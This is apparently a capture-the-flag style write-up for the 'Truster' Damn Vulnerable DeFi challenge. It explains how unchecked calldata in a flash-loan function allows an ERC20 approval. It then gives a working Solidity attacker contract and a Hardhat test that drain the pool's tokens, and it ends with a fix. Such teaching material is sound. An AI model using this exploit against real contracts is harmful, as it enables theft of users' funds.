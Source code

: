 # Truster

## Introduction
The goal is to siphon all the funds from a pool in a single transaction.

## Code Breakdown
There is only 1 smart contract and consist of 1 function ***flashLoan***.
Let's start by looking at the variable.
```
using Address for address;
IERC20 public immutable damnValuableToken;
```
Both variables are using openzepplin libraries. Links given below showcase the function available to each cast.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

<https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20>

Next, an IERC20 token address is called during the constructor
```
constructor (address tokenAddress) {
    damnValuableToken = IERC20(tokenAddress);
}
```

Lastly, the ***flashLoan*** function requires 4 variables.
```
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
```
It checks if the amount of token in the pool is more than borrow amount
```
uint256 balanceBefore = damnValuableToken.balanceOf(address(this)); 
require(balanceBefore >= borrowAmount, "Not enough tokens in pool"); 
```

After the check, it'll transfer the token to the borrower and execute a low level call
```
damnValuableToken.transfer(borrower, borrowAmount); //transfer to borrower
target.functionCall(data);
```

Finally, it will check if the flash loan is returned to the pool
```
uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

Since there are Reentrancy Guard employued in the contract and function, it is not plausible for a reentrancy attack. A direct transfer of token is not an option as well.
Let's look at the ***target.functionCall(data)***
Reference: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol>

Notice that it calls for ```return functionCallWithValue(target, data, 0, "Address: low-level call failed!");```.

Tracing that, we'll arrive at this function. Now we can find a way to call a function within the flashloan.
```
require(address(this).balance >= value, "Address: insufficient balance for call");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResultFromTarget(target, success, returndata, errorMessage);
```

## Hints
We can call a low level approval that allow the attacker to transfer funds on the behalf of this contract. Here's the flow:
1) Execute flashloan
2) Within the flashloan, ***target.functionCall(data);*** will execute an approval for attacker to transfer token on the contract's behalf in the future
3) Return the flashloan and complete the function
4) Transfer the tokens on behalf of the contract

Here are reference links to read up
Reference: <https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-approve-address-uint256->

<https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transferFrom-address-address-uint256->

## Solution
Here's an easy solution. We want to execute a low-level call to authorise our attacker address to transfer tokens in the future. Here's the statement to obtain the call data.
```
bytes memory attackcalldata = abi.encodeWithSignature(
    "approve(address,uint256)",
    address(this),
    tokens
);
```

Then, we'll drop the call data into the flashLoan function when it'll execute the ***approve*** call.
```
pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
```

Lastly, the attacker is now an authorised user to transfer token on behalf of the smart contract pool.
```
damnValuableToken.transferFrom(address(pool), msg.sender, tokens);
```

A new smart contract is drawn up for this solution. Here's the codes.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../truster/TrusterLenderPool.sol";

/**
 * @title TrusterAttacker
 * @author BingleBangle-BH's attacker contract
 */
contract TrusterAttacker is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    TrusterLenderPool public immutable pool;

    constructor (address _pool, address _token){
        pool = TrusterLenderPool(_pool);
        damnValuableToken = IERC20(_token);
    }

    function drainFunds(uint256 tokens) external nonReentrant{
        bytes memory attackcalldata = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            tokens
        );
        pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
        damnValuableToken.transferFrom(address(pool), msg.sender, tokens);

    }
}
```

Here's the call from javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const attackerpool = await ethers.getContractFactory('TrusterAttacker', attacker);
    this.attack = await attackerpool.deploy(this.pool.address, this.token.address);
    await this.attack.connect(attacker).drainFunds(TOKENS_IN_POOL);
});
```

## Reccommendations
Do not allow unidentified users to insert calldata. If need be, always check ```msg.sender``` against a list of whitelisted address.